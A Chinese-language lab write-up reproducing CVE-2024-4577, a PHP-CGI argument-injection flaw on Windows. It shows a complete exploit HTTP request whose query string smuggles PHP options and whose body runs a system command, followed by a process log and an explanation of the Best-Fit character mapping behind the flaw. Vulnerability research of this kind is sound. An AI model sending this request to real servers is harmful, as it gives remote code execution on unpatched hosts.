




# CVE-2024-4577

[TOC]

## 环境搭建

1. windsow虚拟机。Hyper-v，镜像zh-cn_windows_10_business_editions_version_22h2_updated_march_2024_x64_dvd_44fea41d.iso
2. 安装**XAMPP**，我选择的版本是xampp-windows-x64-8.2.12-0-VS16-installer.exe





## 漏洞复现

```
POST http://172.19.130.53/php-cgi/php-cgi.exe?%add+cgi.force_redirect%3dXCANWIN+%add+allow_url_include%3don+%add+auto_prepend_file%3dphp%3a//input HTTP/1.1
Host: 172.19.130.53
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
If-None-Match: "1443-60a7f6a8cca40"
If-Modified-Since: Sun, 19 Nov 2023 11:10:25 GMT
Connection: close
Content-Length: 27

<?php system('calc');?>
```


## 漏洞原理

### Best-Bit

#### 概念

Best-Fit是一种字符映射策略，用以解决源代码页中的字符在目标代码页中没有直接等价物时的问题。在将Unicode代码页中字符转换成非Unicode代码页字符时，如果无法找到对应的字符，就会按照Best-Fit预定义的一个转换表进行转换。

#### 例子

比如，GBK编码（cp936）的Best-Fit Mapping转换表是：[https://www.unicode.org/Public/MAPPINGS/VENDORS/MI...](https://www.unicode.org/Public/MAPPINGS/VENDORS/MICSFT/WindowsBestFit/bestfit936.txt) 其中有一些有趣的字符转换，比如0xaa在转换后会变成a，0xb2在转换后会变成2，0xad在转换后会变成-。

### CGI调用时数据传递

在xmmap中Apache的httpd在接收到cgi请求时会调用php-cgi这个程序执行脚本。在httpd将http请求字符串封装在名为QUERY_STRING环境变量中，进而间接将数据传递到php-cgi中。于此同时httpd将http请求体数据通过标准输入stdin传递到php-cgi中。

这里是调用链



这里是调用时具体细节，可以很轻易的发现QUERY_STRING这个环境变量。

```
19:59:41.8698511	php-cgi.exe	6020	Process Start		SUCCESS	Parent PID: 9308, Command line: C:\xampp\php\php-cgi.exe ­d cgi.force_redirect=XCANWIN ­d allow_url_include=on ­d auto_prepend_file=php://input, Current directory: C:\xampp\php\, Environment: 
	MIBDIRS=C:/xampp/php/extras/mibs
	MYSQL_HOME=\xampp\mysql\bin
	OPENSSL_CONF=C:/xampp/apache/bin/openssl.cnf
	PHP_PEAR_SYSCONF_DIR=\xampp\php
	PHPRC=\xampp\php
	TMP=\xampp\tmp
	HTTP_HOST=172.19.130.53
	HTTP_USER_AGENT=Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36
	CONTENT_LENGTH=27
	HTTP_ACCEPT=text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
	HTTP_ACCEPT_ENCODING=gzip, deflate, br
	HTTP_ACCEPT_LANGUAGE=en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
	HTTP_CACHE_CONTROL=max-age=0
	HTTP_CONNECTION=close
	HTTP_IF_MODIFIED_SINCE=Sun, 19 Nov 2023 11:10:25 GMT
	HTTP_IF_NONE_MATCH="1443-60a7f6a8cca40"
	HTTP_UPGRADE_INSECURE_REQUESTS=1
	PATH=C:\Windows\system32;C:\Windows;C:\Windows\System32\Wbem;C:\Windows\System32\WindowsPowerShell\v1.0\;C:\Windows\System32\OpenSSH\;C:\Users\cve-2024-4577\AppData\Local\Microsoft\WindowsApps
	SystemRoot=C:\Windows
	COMSPEC=C:\Windows\system32\cmd.exe
	PATHEXT=.COM;.EXE;.BAT;.CMD;.VBS;.VBE;.JS;.JSE;.WSF;.WSH;.MSC
	WINDIR=C:\Windows
	SERVER_SIGNATURE=<address>Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.2.12 Server at 172.19.130.53 Port 80</address>

	SERVER_SOFTWARE=Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.2.12
	SERVER_NAME=172.19.130.53
	SERVER_ADDR=172.19.130.53
	SERVER_PORT=80
	REMOTE_ADDR=172.19.128.1
	DOCUMENT_ROOT=C:/xampp/htdocs
	REQUEST_SCHEME=http
	CONTEXT_PREFIX=/php-cgi/
	CONTEXT_DOCUMENT_ROOT=C:/xampp/php/
	SERVER_ADMIN=postmaster@localhost
	SCRIPT_FILENAME=C:/xampp/php/php-cgi.exe
	REMOTE_PORT=56898
	GATEWAY_INTERFACE=CGI/1.1
	SERVER_PROTOCOL=HTTP/1.1
	REQUEST_METHOD=POST
	QUERY_STRING=%add+cgi.force_redirect%3dXCANWIN+%add+allow_url_include%3don+%add+auto_prepend_file%3dphp%3a//input
	REQUEST_URI=/php-cgi/php-cgi.exe?%add+cgi.force_redirect%3dXCANWIN+%add+allow_url_include%3don+%add+auto_prepend_file%3dphp%3a//input
	SCRIPT_NAME=/php-cgi/php-cgi.exe

```

### Best-Fit与CGi结合



## Reference

[CVE-2024-4577](https://mp.weixin.qq.com/s/i3lptYyFXFpD1wLqlREyIw)

[CVE-2012-1823](https://github.com/vulhub/vulhub/tree/master/php/CVE-2012-1823)